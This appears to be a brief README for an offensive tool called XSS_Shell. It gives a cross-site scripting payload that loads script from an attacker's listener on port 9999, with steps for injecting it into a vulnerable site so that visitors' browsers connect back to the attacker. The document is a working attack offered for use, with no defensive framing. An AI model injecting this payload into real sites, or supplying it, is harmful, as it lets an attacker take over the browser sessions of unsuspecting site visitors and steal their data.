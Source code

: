 # XSS_Shell

Use this tool with the simple payload to get reverse connection to the listener.
Payload : <script src="http://host:9999"></script>

Working:
1. First setup the payload listener which uses 9999 port as default.
2. Inject payload to the site which is XSS vulnerable to get the clients connection.

#DONE
